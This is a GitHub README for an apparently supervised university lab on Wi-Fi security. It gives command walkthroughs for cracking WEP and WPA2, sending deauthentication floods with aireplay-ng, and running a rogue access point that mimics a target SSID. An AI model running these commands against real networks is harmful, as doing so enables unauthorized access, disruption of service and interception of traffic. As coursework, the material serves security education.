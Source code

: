 # Wireless Penetration Testing: WEP/WPA2 Cracking & Rogue AP Simulation
![Status](https://img.shields.io/badge/Status-Completed-green)  
![Tech](https://img.shields.io/badge/Tools-Aircrack--ng%2C%20Wireshark%2C%20Scapy%2C%20Python%20-%20blue)  

## 📌 Overview  
This repository contains a **Wi-Fi Security project**, where I explored vulnerabilities in wireless networks, including:  
- Cracking WEP encryption  
- Cracking WPA2 encryption  
- Performing deauthentication attacks  
- Simulating rogue access points  

This project demonstrates **ethical hacking techniques** used in penetration testing for assessing and strengthening Wi-Fi security.  

---

## 📖 Table of Contents  
- [Key Topics Covered](#key-topics-covered)  
- [Files Included](#files-included)  
- [Tools & Technologies Used](#tools--technologies-used)  
- [Methodology](#methodology)  
  - [Environment Setup](#0️⃣-environment-setup)  
  - [Cracking WEP Encryption](#1️⃣-cracking-wep-encryption)  
  - [Cracking WPA2 Encryption](#2️⃣-cracking-wpa2-encryption)  
  - [Deauthentication Attack](#3️⃣-deauthentication-attack)  
  - [Rogue Access Point Attack](#4️⃣-rogue-access-point-attack)  
- [Ethical Considerations](#ethical-considerations)  
- [Learning Outcomes](#learning-outcomes)  
- [Contact](#contact)  
- [Acknowledgements](#acknowledgements)  
 

---

## Key Topics Covered  
- **Cracking WEP Encryption**: Used `aircrack-ng` to recover WEP keys by analyzing captured IVs.  
- **Breaking WPA2-PSK Encryption**: Captured WPA2 handshake and used dictionary attacks.  
- **Deauthentication Attacks**: Exploited CVE-2019-16275 to disconnect clients from a Wi-Fi network.  
- **Rogue Access Point Attack**: Set up a fake AP and captured victim traffic.  

---

## Files Included  
| File Name | Description |  
|-----------|------------|  
| `captures/*` | All the required captures to execute this attack |  
| `scripts/deauth.py` | Python script for deauthentication attack |   
| `scripts/hostapd.txt` | Configuration file for creating a rogue AP | 
| `wordlists/passwords.txt` | Wordlist used for WPA cracking |  

---

## Tools & Technologies Used  
- **Aircrack-ng Suite** (`Airmon-ng`, `Airodump-ng`, `Aircrack-ng`, `Aireplay-ng`)  
- **Wireshark** – Network packet analysis  
- **Scapy** – Packet manipulation & forging  
- **Python** – Scripting for automated attacks  
- **Linux CLI (Ubuntu VM)** – Running security tools 
- **TPLink TL-WN722N Wi-Fi Adapter** 

---

## Methodology  

### **0️⃣ Environment Setup**

```bash
sudo apt update
sudo apt install -y aircrack - ng

sudo apt install wireshark

git clone https :// github . com / secdev / scapy . git
cd scapy
sudo python3 setup . py install

sudo apt update
sudo apt upgrade
sudo apt install -y realtek - rtl8188eus - dkms
```

```bash
iwconfig # Indentify the inteface of the wifi adapter

# replace < interface > with the interface of the wifi adapter
sudo ifconfig < interface > down
sudo airmon - ng check kill
sudo iwconfig < interface > mode monitor
sudo ifconfig < interface > up
iwconfig
# This enables monitor mode 
```

---

### **1️⃣ Cracking WEP Encryption**  
- Enabled **monitor mode** using `airmon-ng`.  
- Captured packets using `airodump-ng`.  
- Used **IVs** to decrypt the key with `aircrack-ng`.  

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Capture packets
sudo airodump - ng wlan0mon -w < dump file >

# Crack WEP keykey
aircrack - ng -n 64 -b <AP_MAC_address> <dump file>. pcap
```
- Add the key in wireshark to decrypt the packets. (Edit > Preferences > Protocols > IEEE 802.11 > Decryption keys.Make sure to choose the protocol as wep.)

### **2️⃣ Cracking WPA2 Encryption**  
- Captured **4-way handshake** using `airodump-ng`.  
- Used dictionary attack with `aircrack-ng`.  

```bash
# Capture handshake
sudo airodump - ng wlan0mon -w <dump_file > -c <channel>

# Crack WPA2 password
sudo aircrack - ng -a 2 -b < AP_MAC_address > -w <word_file> <dump_file> (I used passwords.txt as the word file) 
```

### 3️⃣ Deauthentication Attack
- Used aireplay-ng to send deauthentication frames, disconnecting clients.
- Exploited CVE-2019-16275 for forced disconnection.

```bash
sudo aireplay-ng --deauth 100 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### 4️⃣ Rogue Access Point Attack
- Created a fake AP using hostapd to capture victim traffic.
- Used Wireshark to analyze captured packets.

```bash
#Create hostapd.conf and add the following lines
ctrl_interface=/var/run/hostapd
driver=nl80211
ssid=<target AP>
channel=<target channel>
hw_mode=g
ieee80211n=1
ieee80211w=2
auth_algs=< target algorithm >
wpa=< target WPA version >
wpa_key_mgmt=< target MGMT >
rsn_pairwise=< target paiwise >
wpa_passphrase=< target password >
```
```bash
sudo systemctl restart apache2
sudo hostapd hostapd.conf
```

---

## Ethical Considerations

⚠️ Disclaimer: This project was conducted in a controlled lab environment as part of an exercise in cybersecurity. Unauthorized Wi-Fi penetration testing is illegal without explicit permission. The purpose of this project was to understand security weaknesses and develop skills for ethical hacking and cybersecurity defense."

### Key ethical principles followed:

✅ Responsible Disclosure – Understanding vulnerabilities to help secure networks.
✅ No Unauthorized Testing – Experiments were performed in a controlled environment with instructor approval.
✅ Security Awareness – The findings from this project help reinforce best security practices for network protection.

## Learning Outcomes

By completing this project I gained the following skills:

✅ Hands-on experience with Wi-Fi security – Analyzed encryption flaws in WEP and WPA2.
✅ Packet Sniffing & Analysis – Used Wireshark to capture and inspect wireless traffic.
✅ Cracking Encryption Keys – Learned how dictionary attacks and IV collection work against WPA2 and WEP.
✅ Ethical Hacking Techniques – Performed deauthentication attacks and rogue AP simulations.
✅ Understanding Countermeasures – Explored network defense strategies, including WPA3, VPNs, and intrusion detection.

---

### Contact
For any inquiries, feel free to reach out via:
📌 LinkedIn: www.linkedin.com/in/pranavs07

---

### Acknowledgements
Parts of this lab were originally written by Simon Thoustrup, Sigurd Hilbert Madsen and Frej Laursen
W¨urtz. Later on, parts of these exercises were re-written/edited by Kasper Rasmussen and then edited
by Davide Zanetti, Ghassan Karame, Luka Maliˇsa, Joel Reardon and Nikos Karapanos. Addition of the
deauthentication attack, has been done by Domien Schepers, while addition of the rogue access points and
latest editing/updating of all sections has been done by Evangelos Bitsikas. This project was completed under the supervision of Dr. Aanjhan Ranganathan.